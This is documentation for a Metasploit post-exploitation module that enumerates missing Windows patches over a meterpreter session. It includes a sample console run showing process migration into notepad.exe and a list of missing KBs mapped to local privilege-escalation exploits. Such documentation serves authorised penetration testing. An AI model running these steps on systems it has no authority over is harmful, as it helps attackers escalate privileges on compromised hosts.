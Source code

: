 
## Vulnerable Application

  This module will attempt to enumerate which patches are applied to a
  windows system based on the result of the WMI query: SELECT HotFixID
  FROM Win32_QuickFixEngineering.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/enum_patches```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **KB**

  A comma separated list of KB patches to search for.

  **MSFLOCALS**

  Search for missing patches for which there is a MSF local module.

  **SESSION**

  The session to run this module on.

## Scenarios

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49223) at 2019-12-14 08:37:46 -0700

  msf > use post/windows/gather/enum_patches
  msf post(windows/gather/enum_patches) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/enum_patches) > run
    [-] Known bug in WMI query, try migrating to another process
    [*] Post module execution completed
  msf post(windows/gather/enum_patches) > sessions 1
    [*] Starting interaction with 1...
  meterpreter > run post/windows/manage/migrate

    [*] Running module against TEST-PC
    [*] Current server process: Explorer.EXE (1908)
    [*] Spawning notepad.exe process to migrate to
    [+] Migrating to 3992
    [+] Successfully migrated to process 3992
  meterpreter > background
    [*] Backgrounding session 1...
  msf post(windows/gather/enum_patches) > run

    [+] KB2871997 is missing
    [+] KB2928120 is missing
    [+] KB977165 - Possibly vulnerable to MS10-015 kitrap0d if Windows 2K SP4 - Windows 7 (x86)
    [+] KB2305420 - Possibly vulnerable to MS10-092 schelevator if Vista, 7, and 2008
    [+] KB2592799 - Possibly vulnerable to MS11-080 afdjoinleaf if XP SP2/SP3 Win 2k3 SP2
    [+] KB2778930 - Possibly vulnerable to MS13-005 hwnd_broadcast, elevates from Low to Medium integrity
    [+] KB2850851 - Possibly vulnerable to MS13-053 schlamperei if x86 Win7 SP0/SP1
    [+] KB2870008 - Possibly vulnerable to MS13-081 track_popup_menu if x86 Windows 7 SP0/SP1
    [*] Post module execution completed
  ```
